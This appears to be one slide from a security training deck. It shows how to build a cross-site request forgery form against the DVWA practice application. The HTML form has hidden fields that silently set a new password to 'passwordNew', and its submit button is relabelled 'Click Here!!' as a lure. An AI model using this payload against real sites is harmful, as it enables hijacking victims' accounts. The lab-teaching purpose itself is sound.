

# Create New Request Form
Now, hide the inputs and automatically submit a value for these
Also, change the texts for the button to “Click Here!!”
Changes are shown in red text

<form action="http://10.1.34.219/dvwa/vulnerabilities/csrf/#" method="GET">
<input type="hidden" autocomplete="off" name="password_new" value="passwordNew">
<input type="hidden" autocomplete="off" name="password_conf" value="passwordNew">
<input type="submit" value="Click Here!!" name="Change">
</form>

Here, the new password will be “passwordNew”, this can be set to anything